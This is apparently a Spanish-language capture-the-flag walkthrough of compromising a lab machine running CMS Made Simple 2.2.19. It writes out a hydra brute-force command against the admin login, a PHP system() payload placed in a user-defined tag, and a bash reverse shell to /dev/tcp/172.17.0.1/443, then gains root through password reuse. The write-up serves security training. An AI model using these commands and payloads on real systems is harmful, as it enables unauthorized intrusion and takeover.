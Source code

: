 Empezamos la maquina Dificil

![image](https://github.com/user-attachments/assets/71b619b0-2b37-412e-83a7-83b78f38fe80)

nmap: 22,80

---
entramos a la pagina principal y no hay mucho
![[pagina principal.png]]
 nos vamos al código fuente y dice al final:
![[codigo fuente .png]]
entramos:
> http://172.17.0.2/cmsms/
![[pagina principal 2.png]]
buscando y haciendo Fuerza bruta de directorios, no encontraba mucho, pero me entro la curiosidad por esto:
![[curiosidad 1.png]]
Esta en PHP así que probablemente tiene un "login.php" y al final di con esto
> http://172.17.0.2/cmsms/admin/login.php

![[login.php 1.png]]
que nos lleva al login

si capturo con burpsuite el login que ya tiene por defecto un usuario y contraseña que dicen que es incorrecto, da esto:
> username=admin&password=christelle&loginsubmit=Submit

![[captura burp.png]]
Que realmente no nos dice mucho. 

hacemos un ataque de fuerza bruta:

    - hydra -l admin -P /usr/share/wordlists/rockyou.txt  "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"  

![[fuerza bruta.png]]

y nos da la contraseña "chocolate" para admin
probamos en el panel de login
![[panel admin.png]]
ya estamos dentro el panel, vemos una versión antigua entonces buscamos las vulnerabilidades conocidas para la versión 2.2.19 de CMS Made Simple. las cuales encontré con esta explicación 

> |[CVE-2024-27625](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27625)|La versión 2.2.19 de CMS Made Simple es vulnerable a ataques de secuencias de comandos entre sitios (XSS). Esta vulnerabilidad reside en el módulo Administrador de archivos del panel de administración. En concreto, el problema surge debido a una limpieza inadecuada de la entrada del usuario en el campo "Nuevo directorio".|
  [CVE-2024-27623](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27623)|La versión 2.2.19 de CMS Made Simple es vulnerable a la inyección de plantillas del lado del servidor (SSTI). La vulnerabilidad existe en el Administrador de diseño, en particular al editar las rutas de navegación.|

aquí la pagina de la explicación sobre la vulnerabilidad: https://cve-mitre-org.translate.goog/cgi-bin/cvekey.cgi?keyword=cms+made+simple&_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc


nos vamos a: 
> extensiones > user defined tags > add defined tags > le colocamos un nombre y pruebo su vulnerabilidad 

![[prueba.png]]

en code colocamos:

    - <?php echo system('id'); ?>

veremos que queda guardado y entramos al "prueba" que creamos:

guardamos y colocamos "run" nos mostrara este mensaje:
![[prueba 2.png]]

probamos si la vulnerabilidad que encontramos esta funcionando:
![[prueba 3.png]]
nos dará: 

>uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)

o sea que la vulnerabilidad esta funcionando

entonces modificamos ese código dentro del paréntesis y colocamos así la reverse shell con nuestro terminal en escucha:

     - <?php echo system('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"'); ?>

![[reverse .png]]

entonces la lanzamos con el terminal en escucha y entramos.
![[conexion .png]]
dentro no encontré nada y probé con la misma contraseña de admin del panel por curiosidad con el usuario  admin
ingresamos la contraseña "chocolate" al su root
![[final.png]]
y somos root! 


